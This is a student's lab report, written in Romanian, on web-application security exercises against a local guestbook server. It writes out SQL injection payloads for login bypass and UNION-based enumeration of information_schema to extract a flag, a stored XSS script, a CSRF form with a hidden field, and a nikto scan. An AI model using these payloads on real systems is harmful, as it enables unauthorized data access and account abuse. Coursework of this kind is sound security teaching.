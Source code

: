 Student: Margineanu Vladut
Grupa: 341 C2

						Laborator 8

	Cerinta 1

 Serverul ruleaza direct un query. Cu urmatorul SQL injection (cu stringurile date la login):
```SQL
 SELECT * FROM tabela WHERE username=<user> AND PASSWORD=<passwd> LIMIT 	1
```
```SQL
 SELECT * FROM tabela WHERE username='' OR 1=1 -- ' AND PASSWORD=<passwd>
```
Comment:  username este string care se evalueaza la true: 
	```SQL
	' ' OR 1=1 -- ' fac ca restul comenzii, pana la ' sa fie comentat
	```

	Cerinta 2
	
```SQL
 SELECT col1, col2... FROM tablename WHERE name='' UNION (SELECT 1, 2, ...)  -- bruteforce the number of columns! '
```

 1. Incercam sa ne logam cu:
```SQL
  ' or 1 order by 1,2,3,4,5,6,7,8,9,10 -- x
```
 - se observa eroarea la coloana 5 => avem 4 coloane

 2. Ne logam cu:
 ```SQL
  ' union select 1, 2, 3, group_concat(table_name separator ',') from information_schema.tables where table_schema='guestbook' -- x
  ```
 - se observa ca avem tabelele: entries, flags, users

 3. Aflam care e coloana cu flag-ul:
 ```SQL
 ' union select 1, 2, 3, group_concat(column_name separator ',') from information_schema.columns where table_schema='guestbook' and table_name='flags' -- x
 ```

 4. Selectam flagul din tabela.
 ```SQL
 ' union select 1, 2, 3, flag from guestbook.flags -- x
 ```

 Se obtine flag-ul: SpeishFlag{th1sw4sSQL1nj3cti0n}!

	Cerinta 3

 Mesajele scrise in chenarul din server sunt interpretate ca HTML. 
 Orice script e bagat in HTML si executat. Asadar, mesajul contine:
 
```json
 <script>
 alert("Arafat!");
 </script> 
```
-  genereaza un "dialog box" in care scrie "Arafat!"

	Cerinta 4

 Form al guestbook-ului:
 ```json
<form method="post" action="/guestbook/post">
  <p>
    <div><label for="message">Message:</label></div>
    <textarea id="message" name="message" rows="3" cols="80"></textarea>
  </p>
  <p>
    <input type="submit" value="Send">
  </p>
</form>
```

 L-am refactorizat local:
 ```json
<form method="post" action="http://localhost:8080/guestbook/post">
  <p>
    <label>Boss:</label>
    <input type="hidden" id="message" name="message" value="Voucher 2021">
  </p>
  <p>
    <input type="submit" value="Click Here!">
  </p>
</form>
```

	Cerinta 5
 - cu utilitarul nikto, am scanat server-ul si am gasit fisierul server.js. 
 - l-am descarcat cu comanda curl si l-am adaugat in arhiva

 





